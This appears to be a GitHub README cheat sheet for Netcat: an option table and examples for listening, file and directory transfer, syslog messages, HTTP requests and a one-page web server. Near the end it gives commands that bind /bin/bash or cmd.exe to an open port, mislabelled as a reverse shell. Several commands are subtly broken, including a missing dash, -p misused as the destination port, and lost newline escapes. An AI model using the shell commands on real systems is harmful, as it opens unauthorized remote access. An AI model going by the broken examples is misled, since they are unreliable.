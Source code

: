 ## What is Netcat?

**Netcat** or **nc**, is a well-known network analysis tool, also known as the Swiss army knife of hackers, because it has many features, similar to the described knife.

---

### Netcat Cheat Sheet

| **Options**       | **Description**                                                                                                                                                                                                                                 |
| ----------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| -4                | Forces the use of IPv4 (GNU Netcat)                                                                                                                                                                                                             |
| -6                | Forces the use of IPv6 (GNU Netcat)                                                                                                                                                                                                             |
| -d                | Releases Netcat from the console (running in the background; available in Windows and current GNU Netcat versions)                                                                                                                              |
| -D                | Activates the option for debugging sockets (GNU Netcat)                                                                                                                                                                                         |
| -h (display help) | Displays help (commands/options with a short description)                                                                                                                                                                                       |
| -i (secs)         | Delays in seconds for sent lines or scanned ports                                                                                                                                                                                               |
| -k                | At the end of a connection, Netcat waits for a new connection (only possible with GNU Netcat and only in combination with “-l”)                                                                                                                 |
| -l (listen mode)  | Listen and server mode for incoming connection requests (via port indicated)                                                                                                                                                                    |
| -L Listen harder  | Netcat also continues to operate in listen mode after client-side connection terminations (consistently with the same parameters; only supported by the Windows version)                                                                        |
| -n (numeric only) | Only IP numbers, no DNS names                                                                                                                                                                                                                   |
| -o (file)         | A hex dump is carried out for the data traffic (content of files represented in a hexadecimal view); used for fault finding (debugging network applications); recording/sniffing communication is possible (for outgoing and incoming packages) |
| -p (port)         | Enters the local source port that Netcat should use for outgoing connections                                                                                                                                                                    |
| -r                | Use of random port values when scanning (for local and remote ports)                                                                                                                                                                            |
| -s (address)      | Defines the local source address (IP address or name)                                                                                                                                                                                           |
| -t                | Telnet mode (enables server contact via Telnet); requires a special compilation of Netcat, otherwise the option is not available.                                                                                                               |
| -u                | Use of UDP mode (instead of TCP)                                                                                                                                                                                                                |
| -U (gateway)      | Netcat uses Unix domain sockets (GNU Netcat)                                                                                                                                                                                                    |
| -v                | Extensive output (e.g. responsible for the display and scope of displayed fault messages)                                                                                                                                                       |
| -w (secs)         | Defines timeouts; for establishing and terminating connections (unit: seconds)                                                                                                                                                                  |
| -z                | Port scanner mode (zero I/O mode); only listening services are scanned (no data is sent)                                                                                                                                                        |

- Netcat listening on port 567/TCP :

```bash
nc -lnvp 567
```

- Connecting to that port from another machine :

```bash
nc 1.2.3.4 -p 567
```

- To pipe a text file to the listener :

```bash
cat infile | nc 1.2.3.4 -p 567 -q 10
```

- To have the listener save a received text file :

```bash
nc -lnvp 567 > textfile
```

- To transfer a directory, first at the receiving end set up :

```bash
nc -lnvp 678 | tar xvfpz
```

- Then send the directory :

```bash
tar zcfp - /path/to/directory | nc -w 3 1.2.3.4 -p 678
```

- To send a message to your syslog server (the <0> means emerg) :

```bash
echo '<0>message' | nc -w 1 -u syslogger -p 514
```

- Setting up a remote shell listener (reverse shell) :

```bash
nc -v -e '/bin/bash' -l -p 1234 -t
```

or

```bash
nc l -p 1234 -e "c:\windows\system32\cmd.exe"
```

Then telnet to port 1234 from elsewhere to get the shell.

- Using netcat to make an HTTP request :

```bash
echo -e "GET http://www.google.com HTTP/1.0nn" | nc -w 5 www.google.com 80
```

- Making a one-page webserver; this will feed homepage.txt to all comers :

```bash
cat homepage.txt | nc -v -l -p 80
```

- and if you want to create an tty for made an text communication by tty share :

```bash
cat /dev/tty | nc LISTENER_IP 4444
```

```bash
nc -lnvp 4444
```
